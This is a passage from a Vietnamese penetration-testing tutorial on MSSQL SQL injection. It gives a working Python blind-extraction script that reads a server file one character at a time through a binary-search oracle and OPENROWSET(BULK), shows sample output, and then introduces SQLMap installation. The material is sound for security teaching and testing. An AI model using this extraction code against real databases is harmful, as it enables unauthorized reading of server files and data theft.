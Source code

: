 - **Bước 2: Dump nội dung file.**

Khi đã biết độ dài của file, chúng ta có thể dump (trích xuất) nội dung file theo từng ký tự. Để lấy từng ký tự, chúng ta sử dụng tìm kiếm nhị phân để đoán giá trị ASCII của nó bằng cách điều chỉnh các giới hạn `low` và `high`:

```python
print("[*] File = ", end='')
for i in range(1, length + 1):
    low = 0
    high = 127
    while low <= high:
        mid = (low + high) // 2
        if oracle(f"(SELECT ASCII(SUBSTRING(BulkColumn,{i},1)) 
                   FROM OPENROWSET(BULK '{file_path}', SINGLE_CLOB) AS x) 
                   BETWEEN {low} AND {mid}"):
            high = mid - 1
        else:
            low = mid + 1
    print(chr(low), end='')
sys.stdout.flush()
print()
```

Điều này sẽ in ra nội dung của file từng ký tự một.

**Ví Dụ Khi Chạy:**

Khi bạn chạy script Python trên (giả sử bạn có quyền SQL injection và quyền cần thiết), kết quả sẽ giống như sau:

```bash
[*] File length = 37
[*] File = Đây là nội dung của file
```

Quá trình này có thể mất một khoảng thời gian vì mỗi ký tự được đọc lần lượt, và tìm kiếm nhị phân cần thời gian cho mỗi ký tự.

---

14
### Công Cụ SQLMap

**SQLMap** là một công cụ kiểm thử xâm nhập mã nguồn mở rất phổ biến, được tự động hóa để phát hiện và khai thác các lỗi SQL injection trên nhiều loại cơ sở dữ liệu, bao gồm MSSQL.

### Cài Đặt SQLMap
SQLMap là một công cụ được viết bằng Python và có thể chạy trên các hệ điều hành như Windows, Linux, hoặc macOS. Công cụ này thường được cài sẵn trên một số hệ điều hành Linux, chẳng hạn như Kali Linux hoặc ParrotOS.

Để cài đặt SQLMap, bạn chỉ cần thực hiện các bước sau:
1. Tải phiên bản mới nhất từ trang GitHub releases.
2. Giải nén tập tin tải về.
3. Vào thư mục chứa SQLMap và chạy lệnh:
   ```bash
   python3 sqlmap.py
   ```
